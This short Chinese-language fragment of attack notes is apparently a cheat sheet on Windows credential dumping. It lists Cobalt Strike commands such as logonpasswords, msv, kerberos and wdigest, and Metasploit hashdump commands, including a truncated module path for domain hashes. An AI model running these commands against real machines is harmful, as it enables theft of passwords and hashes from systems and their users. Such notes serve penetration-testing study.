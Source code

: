 ![](img/2.png)

## 在客户端(CS)中

logonpasswords

```
logonpasswords

msv

kerberos

wdigest
```

# 从sam文件里面读取hash

sam文件存放着hash，然后`读取该文件进行获得凭证`。

## msf下的操作

```
hashdump    (普通hash获取)

run hashdump    (获取普通hash值)

post/windows/gather/credenti（获取域hash）
```
